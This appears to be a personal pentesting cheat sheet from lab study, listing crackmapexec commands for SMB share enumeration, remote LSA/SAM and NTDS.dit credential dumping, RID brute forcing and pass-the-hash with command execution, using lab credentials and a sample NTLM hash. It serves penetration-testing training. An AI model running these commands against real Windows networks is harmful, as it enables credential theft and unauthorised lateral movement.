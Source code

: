 **OUTDATED!** Newer one is [[nxc]]
Attacks: #PtH 

```bash
$ crackmapexec smb <IP> --shares -u '' -p ''
```

## Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb <IP> --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```

## Bruteforce RIDs
```shell-session
$ crackmapexec smb <IP> -u 'guest' -p '' --rid-brute
```
## Dump NTDS.dit
```shell-session
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

# Pass the Hash
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 [-x <COMMAND>]
```
